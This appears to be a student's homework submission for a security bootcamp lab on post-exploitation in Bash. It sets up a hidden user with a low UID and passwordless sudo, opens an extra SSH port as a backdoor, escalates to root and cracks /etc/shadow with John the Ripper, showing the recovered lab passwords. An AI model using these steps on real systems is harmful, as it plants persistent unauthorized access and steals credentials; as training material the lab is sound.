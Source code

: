 ## Week 6 Homework Submission File: Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd`

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 200 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 200 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  Add the line: `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under the `root` entry
   
6. Test that `sudo` access works without your password:

    - `su sysd`
    - `sudo -l`
    
    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    - `sudo nano /etc/ssh/sshd_config`
    
    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service:
    - `service ssh restart`
    - `enter password for sysadmin`
    
2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ``ssh sysd@192.168.6.105 -p 2222``

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ```ssh sysd@192.168.6.105 -p 2222```
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - `sudo su`
    - `john /etc/shadow`


    ```bash
    Created directory: /root/.john
    Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    sysd             (sysd)
    computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnik)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    Goodluck!        (student)
    8g 0:00:03:10 100% 2/3 0.04190g/s 576.2p/s 590.8c/s 590.8C/s Missy!..Jupiter!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```



